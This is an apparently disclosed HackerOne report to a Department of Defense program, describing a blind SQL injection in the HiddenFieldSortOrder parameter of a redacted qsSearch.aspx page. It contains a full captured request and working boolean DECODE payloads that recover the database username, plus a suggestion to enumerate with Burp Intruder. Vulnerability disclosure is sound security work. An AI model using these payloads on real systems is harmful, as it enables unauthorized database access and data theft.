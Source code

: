 # Blind Sql Injection in https://█████/qsSearch.aspx

## Report Details
- **Report ID**: 2081316
- **URL**: https://hackerone.com/reports/2081316
- **State**: Closed
- **Severity**: high
- **Submitted**: 2023-07-24T06:51:48.041Z
- **Disclosed**: 2023-09-08T17:19:05.710Z

## Reporter
- **Username**: hack0neone
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Description:**

access

https://████████/qsSearch.aspx

Click to sort capture packets

```
POST /qsSearch.aspx HTTP/1.1
Host: ████████
Cookie: ASP.NET_SessionId=qrwzcesx1pczpna5a1bumabn; TS01e0cc7d=01a9fe659bc0aaa5aeffd1dcb0212ef4158c4865925e960169a653a233f6de5425138871ffe81b759d57e8cd4d192f460a8455c20a; TS64c50bb0027=085749d0e4ab2000abff03ce041a6de3cdc980bad78329f846f8a7d1a3ca714fca41b9f4477ff74908e5615eaa1130003df96bf750318bbc06de7b8d1dc03b675cf0ea51da191b5c8a95008b8d5b3f758c0ed139489903314d8927a8c58c8d9d
Content-Length: 3764
Sec-Ch-Ua: "Not.A/Brand";v="8", "Chromium";v="114", "Google Chrome";v="114"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cache-Control: no-cache
X-Requested-With: XMLHttpRequest
X-Microsoftajax: Delta=true
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Origin: https://██████
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://██████████/qsSearch.aspx
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

ScriptManager1=UpdatePanelWhole%7CGetFilteredButton&DocumentIDTextBox=&IDNumberTextBox=&DropDownListStatus=&DocumentTitleKeyWords=&DropDownListContains=AND&DropDownListTitleOrKeywords=TOS&TextBoxBegin_Date=24-Jul-2022&TextBoxEnd_Date=24-Jul-2023&FromSession_HFS=0&DocumentIDTextBox_HFS=&IDNumberTextBox_HFS=&DropDownListStatus_HFS=&DocumentTitleKeyWords_HFS=&DropDownListContains_HFS=&DropDownListTitleOrKeywords_HFS=&ExListBoxFSCHF=1010&ExListBoxFSCHFN=2&ExListBoxFSCHFN_HFS=&UseTransDateCheckBox_HFS=&TextBoxBegin_Date_HF=24-Jul-2022&TextBoxEnd_Date_HF=24-Jul-2023&TextBoxBegin_Date_HFS=24-Jul-2022&TextBoxEnd_Date_HFS=24-Jul-2023&Command_HFS=&divPreamble_HF=block&HiddenFieldSortOrder=seqno&__EVENTTARGET=&__EVENTARGUMENT=&__VIEWSTATE=q7mOdp7JADLouhLb0iBsjhyqsgYBjR4m66bmTYp5jGGY0Unk%2FoBSV%2FV5DY4cM8i4AetQ7yIP7NpGAwDZNg1mENuO17N0e9RMjj9k84Mz8Z12lbblsQ3pvMzMXGqVFlV5AapE1ZPF3Lw3mHyNQwU9U8rmLIlySVVc9Fq9r1FEk4E198exJH0aVmUhqMLdX6ah4%2F4jaTRYRASPB6C8VdKG2gvAnVsh%2BQzU05lZGLYsqw8j8EiFXbKKni0hgSjiD%2B%2BanYn9w4xMz5llIOP81jz9jSB479hqo3yuFWuOO91Vr539KvcO7XzstILWDgVLtDeDPw3p2DTZM2PS0vOVnNDpJX6rr76mJfFWD9DJUOSkvCDpz0tGwNcGWZPO0j%2FkaUY%2Fh9L5%2FOblr4Zd6XcWiyo3Sal%2BtCvQnZuzPyCjL33IEpuGojcsUBeY8Aq%2FkFbVr%2Be3cXUSzzBwirfXTdneWQFQlfq8xWxKI2YHsnLZHLNKB3%2FsgP0vvRV1yXvsbC9RfTGhUiK2S%2Bg4XHzadLggy5djNZMHvoulqRwagO7EeksJyWGma9jVCQoc4Vqe3IjRbjmyaZOltk%2BZxh%2FC9P%2BPdT9lhapBOyuXvVDJL862rRIIfJEUo9NJ0ES%2FRRHdk2NO44DsXT99Rj89iOZY1ZgFaAqQEYXhVQEIfFdyMjP52QR2d6ljjjQahESe88R34h9YuLQVGMnZnqwCSgOqjD%2Fw7iuA4fkYrq5zu2muXogAnT%2BYdVe03PNUlMAhdr3oVzTmipt2ezsMpNtGU%2B%2FKO67w8xvPtdMcU1r%2FDWXlU%2BMgnxpWKBfcwk8BMKvSStAX7lxPg%2BAFXJ4W%2B4mMAg6xybe8nfyVtfbcC%2FLT21%2FAo6DA1EP0%2Bquy6r7RSx%2BCSQiQ9FMEn29J%2FEvOYsub01L3h%2FHXt5%2BgfM9lWS1DRQmEbIT9Sy9aXm895QHjFJwR4ZKU%2FV2YqyvpqYxBstMen3tClb74MXUOGLEwkR2SajMOnEvafbc2eND%2BeGkhPvX308aFuCcS92UIOD0YE52Xf%2FvCaFkbYhBFQ3DDTvEsKYq%2Feiv2tdt3t34jpVDYpVuZBjYrE5CKYNZ%2FshSfBGFd3WkyogypS6WwmW4p8tAIP6nZbewu3ljQmfclpQfSEZ1U86hc7R6%2F8Qi5H%2FUoPZkSXdhS7YZ%2FUk2uEFJpMPbwrRIisJZDWOK1iXXUfLGlJNHpqXz%2By1HAWEAgoROMjB3PDciwlG4qOWWNf8kHBIXh4mABbQTBRCSviGCU%2B40mxFN5mCxIDlyVSrZtctMDlDEXxsDrgMlIYF9tPu14HiIkcvTvRRDAilxLNj4oJltCSn9Q4KaohPoOCTCB%2FBDChs7i%2FP%2FtVlVv2hseFoW%2FL5nnXrzZwtQ89g1tukB6B0%2BLNIHSPMTNjHfS94KBTjlI%2BDyJQ1moLRAqrI08LuxR5oL4I4xQWFMokDUes%2F9919T%2BsFFY83LeW8l2cnq9HXs1VHWZC52iEE6NKL3O%2FY8rb8ZzJWx73Vy6%2F4ycbMhmXmBKDL0jPp7pWQwCSF%2Bi3utC6fYzXYVplK%2F%2FUB%2Bl%2Fx3FHulj%2BxbNXbXDNwW9la1gvmiZCBVNBF8Hs9f723CNP9Mk36HeRhnqrv%2BXjT3ru9VUIreZuYLP%2FJMDsMa5hkxNqsGSiYSaVnQdNoh16MX%2FpwD9TFjeLR9trbuYbOe85Q%3D%3D&__VIEWSTATEGENERATOR=23D07230&__VIEWSTATEENCRYPTED=&__EVENTVALIDATION=fsWUuj%2Bv6uAzn%2BPDJy53TOV1EcwpGMzzgrX8HnHdm3%2BXLE0nnYzmv2wV%2FC1MQ36juB9R3FuomPHAhDRTQjaWLLfUo8wqsKkA5oRH27Q0drnd19OLne7P%2F1e7JVyrg3T7IUqgzt668Uf70ylQ0%2Fzm3R8l55e7NMhkJqrNAfwmRnqo01McSaS%2FfV2vktFK2Xg07rplRCRRnjFxz7PgRNyHTd27PGi2JuvyZ661dcSKhHjRUnOe2JvQjiSZRCepgNLisbabLxz3fm%2B1iLqiMbDSRQ%2B%2FD9NNzQ7zv3dFfSQUnFPX7n1%2BN1rxmuSYIrjumhEcO4WaCoted6V4GkC2aj2XlwuOdyJCc5KK83LLHqei%2FQ%2BOYJ70T2sxY5kfRDyc6T5%2BMoqHE6Xl9T6fgHQNss4Ed5vnM1hZ3wZQF2roYILiJnGRewNWVEtDjNbGId6AosGd%2BG8TPm5qmRver%2Fwe%2F61TFc7jVz6dKVS30uH7AAbYcbuytwOXLSNwGrfEQdJWBRfL0fof2hrE1%2BnpdhhTCaZr09ezPUk6vJZKXWxxwYfIcDAiy6VF696%2BrN1sK3DqQY2Ml1ycdVU9IGR7gt0JAr256BTzhp2JqdP3MUmPfzzJUb8yPVIdutWg4s6wd9hZJOffo1XGfM97vgmG31OsKt6Ce5%2Fnvd9EtqYThA73N7lRz3Rbia%2FoGCb%2BSZT%2Fgry9ERSpe772GIZgiIkfmmIH81KdA3ng3UGEUW%2BJQaJ1nqUpqa%2BkvQoXNYP6cgpyJXpqPUBh92Dur9tj6rGmgFWcHMly1EoNjkhmUq2A3Rx3Y4cv8%2F%2FFXK0Q3FHiGe838a3kotnxO5JySmyB%2FaV4pfNfyo0YVRk51Od9eE7%2FtAKgSe11mFqXg2cB0SEJn7JIhMBuozxVV6hW1ja2QpLVxqZxfar1K3Fw8gk%2FOcYpDaEVlE8MLzAft9GeMFoKWMCNXkY9jz80fSlJzDLSHEZ%2BVahTxgsrEeQpo9IzdKvvm2p6RPOYIS4%3D&__ASYNCPOST=true&GetFilteredButton=Search
```

HiddenFieldSortOrder is sql injection parameter


███

payload：

user length=5

seqno-DECODE(length(user),5,1,1/0)   The page returns normal data
█████

The length of the user is incorrect, and the page returns abnormal data
████████

and

user=QSWEB
seqno-DECODE(lpad（user,5),'QSWEB',1,1/0)  The page returns normal data
███

The database user does not return abnormal data to the page
███

We can use the burp intruder template to violently enumerate database usernames .Judging whether the user is correct based on the returned length

███
█████

 
## References

## Impact

An attacker can use SQL injection to bypass a web application's authentication and authorization mechanisms and retrieve the contents of an entire database. SQLi can also be used to add, modify and delete records in a database, affecting data integrity. Under the right circumstances, SQLi can also be used by an attacker to execute OS commands, which may then be used to escalate an attack even further.

## System Host(s)
██████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
seqno-DECODE(lpad(user,5),'QSWEB',1,1/0)

true 


seqno-DECODE(lpad(user,5),'QSWE1',1,1/0)

false

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
